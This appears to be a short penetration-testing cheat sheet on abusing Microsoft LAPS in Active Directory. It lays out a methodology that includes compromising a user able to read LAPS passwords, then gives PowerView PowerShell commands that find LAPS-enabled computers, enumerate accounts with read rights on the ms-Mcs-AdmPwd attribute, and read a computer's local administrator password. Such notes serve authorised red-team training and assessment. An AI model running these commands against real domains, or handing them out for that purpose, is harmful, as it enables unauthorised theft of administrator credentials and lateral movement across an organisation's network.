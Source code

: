 # Methodology
> 1. Check if LAPS is present locally by looking for `C:\Program Files\LAPS\CSE\AdmPwd.dll`.
> 2. Check if LAPS is present in the domain.
> 3. Enumerate what user can read LAPS credentials in OUs.
> 4. Enumerate OUs where LAPS is in use.
> 5. Compromise the user that can read LAPS credentials in OUs.
> 6. Read LAPS credentials.
---
# Powershell
>**ℹ️ Info:**
>
> Remember to follow the [PowerShell scripts methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).

## PowerView
**Find what computer has LAPS:**
```powershell
Get-DomainComputer | Where-object -property ms-Mcs-AdmPwdExpirationTime | select-object samaccountname
```
**Find users who can read LAPS:**
```powershell
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}
```

**Read LAPS credential:**
```powershell
Get-DomainObject -Identity server1$ | select -ExpandProperty ms-mcs-admpwd
```
